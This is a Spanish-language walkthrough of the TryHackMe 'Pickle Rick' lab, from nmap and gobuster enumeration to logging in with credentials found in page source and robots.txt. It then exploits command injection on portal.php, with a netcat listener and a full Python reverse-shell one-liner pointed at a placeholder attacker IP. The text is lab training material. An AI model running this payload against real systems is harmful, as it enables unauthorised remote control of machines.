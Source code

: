

# Writeup: Pickle Rick

![Banner de Pickle Rick](images/pickle_banner.png)

**Pickle Rick** es un desafío de nivel **Fácil** de la plataforma **TryHackMe**. En este writeup, documento los pasos que seguí para obtener acceso al sistema, escalar privilegios y encontrar los 3 ingredientes.

---

## 📊 Datos Esenciales

- **IP de la Máquina:** `10.10.220.243`
- **Sistema Operativo:** `Linux`
- **Tipo de Máquina:** `[ej. Web, Forense, Reversing]`
- **Banderas:** `[ej. user.txt, root.txt]`
- **Tiempo de Resolución:** `30 min`

---

## 🕵️‍♂️ Fase 1: Reconocimiento y Enumeración

El primer paso fue realizar un escaneo de puertos para identificar los servicios activos en la máquina. Utilicé `nmap` con los siguientes parámetros para un escaneo de versiones y scripts:
```bash
nmap -p- --open -sS -sC -sV --min-rate 2000 -n -vvv -Pn 10.10.220.243 -oN escaneo
```

El escaneo inicial con **Nmap** confirmó que la máquina está en línea y reveló los siguientes puertos abiertos:

* **Puerto 22 (SSH)**
    * **Servicio:** OpenSSH 8.2p1

* **Puerto 80 (HTTP)**
    * **Servicio:** Apache httpd 2.4.41
    * **Título del sitio:** "Rick is sup4r cool"
  
**Análisis del Sitio Web (Puerto 80)**
Al navegar a la dirección IP, se encontró un sitio web con temática de **Rick y Morty**. La página principal mostraba una imagen y un mensaje de ayuda de Rick para Morty.

![alt](images/1png.png)

Al inspeccionar el **código fuente** de la página (presionando `Ctrl + U`), se descubrió un comentario oculto.

![alt](images/2.png)

Este comentario revelaba una nota para un usuario, proporcionando una pista valiosa:

Con esta información, hemos obtenido un posible nombre de usuario: `RickRu13s`. Este dato será crucial para la siguiente fase de enumeración.

-----

### **Enumeración de Directorios con Gobuster**

Para continuar con el reconocimiento del sitio web, utilicé la herramienta **Gobuster** para buscar directorios y archivos ocultos. Esto nos ayuda a encontrar posibles puntos de entrada que no son visibles a simple vista. El comando ejecutado fue:

```bash
gobuster dir -u http://10.10.220.243/ -t 200 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x txt,py,php,sh
```

El escaneo de Gobuster reveló varios directorios y archivos de interés:

  * **/login.php** (Status: 200)
  * **/assets/** (Status: 301)
  * **/portal.php** (Status: 302)
  * **/robots.txt** (Status: 200)

De estos hallazgos, el archivo **`/robots.txt`** captó mi atención. Al navegar a esa dirección en el navegador, encontré un texto plano que resultó ser una contraseña.

-----

### **Obtención de Credenciales y Acceso**

Con un nombre de usuario y una contraseña en mano, me dirigí a la página de inicio de sesión que habíamos encontrado previamente: **`/login.php`**.

  * **Usuario:** `RickRu13s` (obtenido del código fuente de la página principal)
  * **Contraseña:** `Wubbalubbadubdub` (encontrada en el archivo `robots.txt`)

Al introducir estas credenciales, logré acceder al sistema, lo que marca el final de la fase de enumeración y el inicio de la explotación.

-----

### 💥 Fase 2: Explotación y Acceso Inicial

Una vez con las credenciales, inicié sesión en la página **`/login.php`** y fui redirigido a una nueva sección: **`portal.php`**. Esta página presentaba un "Panel de Comandos" con un campo de texto para ejecutar comandos.

![alt](images/3.png)

Esta interfaz sugería una vulnerabilidad de **inyección de comandos**. Para confirmar esto y obtener acceso al sistema, decidí ejecutar una **reverse shell**.

  * **Reverse Shell:** Usando una *reverse shell*, un atacante puede hacer que la máquina víctima se conecte a la suya, dándole un control completo sobre el sistema.

Para lograrlo, primero abrí un *listener* en mi máquina atacante con `netcat` en el puerto `4444`.

```bash
nc -lvnp 4444
```

Luego, en el "Panel de Comandos" de la máquina víctima, ejecuté un *payload* de *reverse shell* de Python.

**⚠️ Aclaración:** Es crucial que modifiques el comando de la *reverse shell* para reemplazar `<TU_IP_ATACANTE>` con la dirección IP de tu máquina. En este tipo de ejercicios, a menudo se usa la IP de la interfaz **`tun0`**.

```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<TU_IP_ATACANTE>",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'
```
![alt](images/4.png)
Después de ejecutar el comando, recibí una conexión en mi *listener* de `netcat`, lo que me dio una *shell* con el usuario **`www-data`**. Ahora, el objetivo es encontrar los tres ingredientes y, finalmente, escalar privilegios para obtener el control total.
![alt](images/5.png)
